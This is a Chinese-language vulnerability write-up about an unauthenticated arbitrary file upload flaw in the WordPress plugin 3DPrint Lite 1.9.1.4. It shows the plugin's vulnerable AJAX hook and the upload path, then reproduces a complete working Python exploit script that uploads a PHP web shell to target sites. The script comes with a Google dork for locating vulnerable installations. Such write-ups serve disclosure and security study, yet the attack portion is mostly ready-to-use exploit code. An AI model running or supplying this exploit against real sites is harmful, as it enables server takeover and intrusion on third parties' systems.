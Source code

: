# WordPress 3DPrint Lite 3dprint-lite-functions.php 任意文件上传漏洞

## 漏洞描述

WordPress 3DPrint Lite Version 1.9.1.4 版本 中的 3dprint-lite-functions.php 文件存在文件上传漏洞，攻击者通过构造请求包可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>3DPrint Lite Version 1.9.1.4 版本</a-checkbox></br>

## 插件名

<a-checkbox checked>3DPrint Lite</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/3dprint-lite.1.9.1.4.zip</a-checkbox></br>

## 漏洞复现

首先看一下插件注册的接口

![image.png](/assets/PeiQi-Wiki/img/1638590530183-dbba3790-04d8-4567-bf1e-2f49629a9911.png)

```php
if ( is_admin() ) {
	add_action( 'admin_enqueue_scripts', 'p3dlite_enqueue_scripts_backend' );
	add_action( 'wp_ajax_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	add_action( 'wp_ajax_nopriv_p3dlite_handle_upload', 'p3dlite_handle_upload' );
	include 'includes/3dprint-lite-admin.php';
}
else {
	add_action( 'wp_enqueue_scripts', 'p3dlite_enqueue_scripts_frontend' );
	include 'includes/3dprint-lite-frontend.php';
}
```

跟踪 p3dlite_handle_upload 方法 `wp-content/plugins/3dprint-lite/includes/3dprint-lite-functions.php`

![image.png](/assets/PeiQi-Wiki/img/1638590604840-080502a2-0606-483c-b620-88ced836df9f.png)

向下看可以看到一个标准的文件上传代码

![img](/assets/PeiQi-Wiki/img/1638590633929-99afa9bf-aff5-41b2-a6be-02f10da4a2d4.png)

通过调试可以找到上传路径 `/wp-content/uploads/p3d/`

![img](/assets/PeiQi-Wiki/img/1638590688972-3b63dca0-8357-4456-8d6e-18bc21c476ac.png)

未授权调用 p3dlite_handle_upload 上传文件

```php
# Exploit Title: Wordpress Plugin 3DPrint Lite 1.9.1.4 - Arbitrary File Upload
# Google Dork: inurl:/wp-content/plugins/3dprint-lite/
# Date: 22/09/2021
# Exploit Author: spacehen
# Vendor Homepage: https://wordpress.org/plugins/3dprint-lite/
# Version: <= 1.9.1.4
# Tested on: Ubuntu 20.04.1

import os.path
from os import path
import json
import requests;
import sys

def print_banner():
	print("3DPrint Lite <= 1.9.1.4 - Arbitrary File Upload")
	print("Author -> spacehen (www.github.com/spacehen)")

def print_usage():
	print("Usage: python3 exploit.py [target url] [php file]")
	print("Ex: python3 exploit.py https://example.com ./shell.php")

def vuln_check(uri):
	response = requests.get(uri)
	raw = response.text
	if ("jsonrpc" in raw):
		return True;
	else:
		return False;

def main():

	print_banner()
	if(len(sys.argv) != 3):
		print_usage();
		sys.exit(1);

	base = sys.argv[1]
	file_path = sys.argv[2]

	ajax_action = 'p3dlite_handle_upload'
	admin = '/wp-admin/admin-ajax.php';

	uri = base + admin + '?action=' + ajax_action ;
	check = vuln_check(uri);

	if(check == False):
		print("(*) Target not vulnerable!");
		sys.exit(1)

	if( path.isfile(file_path) == False):
		print("(*) Invalid file!")
		sys.exit(1)

	files = {'file' : open(file_path)}
	print("Uploading Shell...");
	response = requests.post(uri, files=files)
	file_name = path.basename(file_path)
	if(file_name in response.text):
		print("Shell Uploaded!")
		if(base[-1] != '/'):
			base += '/'
		print(base + "wp-content/uploads/p3d/" + file_name);
	else:
		print("Shell Upload Failed")
		sys.exit(1)

main();
            
```

![img](/assets/PeiQi-Wiki/img/1638590820680-20cfb3cc-d320-4ba0-9d47-59d36996ed9d.png)